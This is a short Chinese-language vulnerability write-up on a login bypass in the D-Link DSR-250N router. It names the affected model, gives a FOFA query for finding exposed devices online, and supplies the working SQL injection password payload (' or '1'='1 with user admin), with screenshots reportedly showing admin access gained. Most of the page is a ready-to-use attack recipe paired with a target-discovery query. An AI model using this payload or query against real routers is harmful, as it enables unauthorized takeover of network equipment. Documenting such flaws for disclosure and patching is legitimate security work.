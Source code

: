 # D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

```
D-Link DSR-250N
```

## FOFA

```
app="D_Link-DSR-250N"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162222919.png)

```plain
user: admin
pass: ' or '1'='1
```

成功登录后台

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162223338.png)